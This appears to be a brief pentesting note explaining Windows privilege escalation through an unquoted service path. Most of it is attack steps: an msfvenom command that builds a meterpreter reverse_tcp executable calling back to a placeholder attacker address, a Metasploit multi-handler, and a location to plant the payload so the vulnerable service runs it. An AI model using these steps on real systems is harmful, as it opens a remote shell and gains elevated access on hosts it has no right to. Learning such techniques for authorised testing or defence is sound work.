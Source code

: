what is unquoted service path  ?
If we have an executable thats path is not enclosed in " "  and have a space then we have an unquoted service path 

from the screenshot we can see
![[escalation-via-unquoted-path.png]]
**For Exploitation**

we can create our usual exe file common.exe 
using 
`msfvenom -p windows/meterpreter/reverse_tcp lhost=attacker_IP -f exe -o common.exe`
create multi handler using metasploit 

save the exploit in 
`C:\programFIles\unquotedservicePath\common`
